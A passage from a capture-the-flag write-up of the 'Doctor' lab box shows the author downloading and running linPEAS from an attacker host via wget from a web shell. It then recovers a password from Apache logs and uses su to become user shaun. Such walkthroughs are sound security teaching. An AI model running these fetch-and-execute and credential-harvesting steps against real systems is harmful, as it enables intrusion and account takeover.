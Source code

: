     
    
    root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    

Now from my web shell, I can download it, make it executable, and run it:

    
    
    web@doctor:/dev/shm$ wget 10.10.14.6/linpeas.sh                                                                                                                                                           
    --2020-11-01 12:23:16--  http://10.10.14.6/linpeas.sh                                                                                                                                                     Connecting to 10.10.14.6:80... connected.                                                                                                                                                                 
    HTTP request sent, awaiting response... 200 OK                                                       
    Length: 159864 (156K) [text/x-sh]                                                                                                                                                                         
    Saving to: ‘linpeas.sh’                                                                                                                                                                                   
                                                                                                                                                                                                              
    linpeas.sh          100%[===================>] 156,12K  --.-KB/s    in 0,06s                                                                                                                              
                                                                                                                                                                                                              2020-11-01 12:23:16 (2,69 MB/s) - ‘linpeas.sh’ saved [159864/159864]                                                                                                                                      
                                                                                                         
    web@doctor:/dev/shm$ chmod +x ./linpeas.sh                                                                                                                                                                web@doctor:/dev/shm$ ./linpeas.sh
    ...[snip]...
    

The password comes out in the section “Finding passwords inside logs”:

    
    
    [+] Finding passwords inside logs (limit 70)
    Binary file /var/log/apache2/access.log.12.gz matches
    Binary file /var/log/journal/62307f5876ce4bdeb1a4be33bebfb978/system.journal matches
    Binary file /var/log/journal/62307f5876ce4bdeb1a4be33bebfb978/user-1001.journal matches
    Binary file /var/log/kern.log.2.gz matches
    Binary file /var/log/kern.log.4.gz matches
    Binary file /var/log/syslog.4.gz matches
    /var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
    /var/log/auth.log.1:Nov  1 11:42:04 doctor VGAuth[669]: vmtoolsd: Username and password successfully validated for 'root'.
    /var/log/auth.log.1:Sep 22 13:01:23 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2                      
    /var/log/auth.log.1:Sep 22 13:01:28 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
    

### su

It turns out that Guitar123 is shaun’s password:

    
    
    web@doctor:/var/log$ su - shaun
    Password: 
    shaun@doctor:~$
    

Now I have access to `user.txt`:
